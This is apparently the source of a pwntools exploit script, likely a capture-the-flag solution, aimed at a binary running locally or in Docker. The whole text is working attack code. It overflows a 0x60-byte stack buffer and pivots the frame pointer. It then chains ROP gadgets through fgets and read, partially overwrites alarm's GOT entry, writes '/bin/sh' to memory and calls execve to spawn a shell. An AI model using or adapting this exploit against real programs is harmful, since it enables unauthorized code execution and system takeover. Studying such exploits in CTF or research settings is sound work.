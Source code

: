 ``` python
def main(server, port, debug):
    if(port):
        s = remote("0.0.0.0", port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # fgets(0x4047a0, 0x74, stdin)
    payload = b"A" * 0x60
    payload += p64(0x404800)                # rbp = 0x404800
    payload += p64(0x401196)                # middle of fgets
    payload += b"\x00\x00\x00"              # dummy
    
    s.send(payload)
    sleep(0.5)

    # read(0, alarm.got, 8) ; alarm.got = 0x404008
    # rdi = 0, rsi = alarm.got, rdx = 8
    payload = p64(elf.got['alarm'] + 8)     # alarm.got + 8
    payload += p64(0x401172)                # middle of read

    # read(0, 0x404900, 8) ; &0x404900 = "/bin/sh\x00"
    pop_rbp = 0x401168
    payload += p64(pop_rbp)
    payload += p64(0x404908)                # 0x404900 + 8
    payload += p64(0x401172)
    
    # execve("/bin/sh", 0, 0)
    # rdi = 0x404900, rsi = 0, rdx = 0
    mov_rdi_rsi = 0x40115a
    pop_rsi = 0x401165
    payload += p64(mov_rdi_rsi)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(elf.plt['alarm'])

    payload += b"B" * (0x60 - len(payload))
    payload += p64(0x4047a0)
    payload += p64(0x401190)
    payload += b"\x00\x00\x00"
    log.info(f"payload len : {hex(len(payload))}")

    s.send(payload)
    sleep(0.5)

    # read(0, alarm.got, 8)
    payload = b"\x80\xb0"
    # payload = b"\x80\x50"
    s.send(payload)
    sleep(0.5)

    # read(0, 0x404900, 8)
    payload = b"/bin/sh\x00"
    s.send(payload)
    sleep(0.5)

```